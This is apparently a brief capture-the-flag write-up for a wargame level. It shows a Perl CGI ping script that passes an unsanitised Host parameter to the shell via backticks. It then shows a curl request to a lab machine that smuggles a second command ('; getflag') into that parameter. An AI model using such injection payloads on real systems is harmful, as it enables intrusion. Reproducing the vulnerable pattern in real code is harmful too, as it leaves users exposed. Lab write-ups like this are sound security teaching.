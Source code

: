 # level 07

# ERRORE

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

As we can see there is a command injection, we can write everything we want in
host and it will be execute. (\` in perl indicate it is passed to system())

we can run getflag by using this request:

```bash
curl http://192.168.242.26:7007/index.cgi\?Host\=127.0.0.1%3b%20getflag
```

# ERRORE

